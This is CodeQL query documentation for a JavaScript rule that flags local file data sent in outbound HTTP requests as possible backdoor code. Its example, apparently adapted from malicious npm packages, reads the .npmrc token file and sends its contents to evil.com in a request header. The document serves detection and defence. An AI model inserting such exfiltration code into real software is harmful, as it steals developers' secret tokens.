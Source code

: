 File data in outbound network request
=====================================

::

    ID: js/file-access-to-http
    Kind: path-problem
    Severity: warning
    Precision: medium
    Tags: security external/cwe/cwe-200

`Click to see the query in the CodeQL
repository <https://github.com/github/codeql/tree/main/javascript/ql/src/Security/CWE-200/FileAccessToHttp.ql>`__

Sending local file system data to a remote URL without further
validation risks uncontrolled information exposure, and may be an
indication of malicious backdoor code that has been implanted into an
otherwise trusted code base.

Recommendation
--------------

Examine the highlighted code closely to ensure that it is behaving as
intended.

Example
-------

The following example is adapted from backdoor code that was identified
in two popular npm packages. It reads the contents of the ``.npmrc``
file (which may contain secret npm tokens) and sends it to a remote
server by embedding it into an HTTP request header.

.. code:: javascript

    var fs = require("fs"),
        https = require("https");

    var content = fs.readFileSync(".npmrc", "utf8");
    https.get({
      hostname: "evil.com",
      path: "/upload",
      method: "GET",
      headers: { Referer: content }
    }, () => { });

References
----------

-  ESLint Blog: `Postmortem for Malicious Packages Published on July
   12th,
   2018 <https://eslint.org/blog/2018/07/postmortem-for-malicious-package-publishes>`__.
-  OWASP: `Sensitive Data
   Exposure <https://www.owasp.org/index.php/Top_10-2017_A3-Sensitive_Data_Exposure>`__.
-  OWASP: `Trojan
   Horse <https://www.owasp.org/index.php/Trojan_Horse>`__.
-  Common Weakness Enumeration:
   `CWE-200 <https://cwe.mitre.org/data/definitions/200.html>`__.
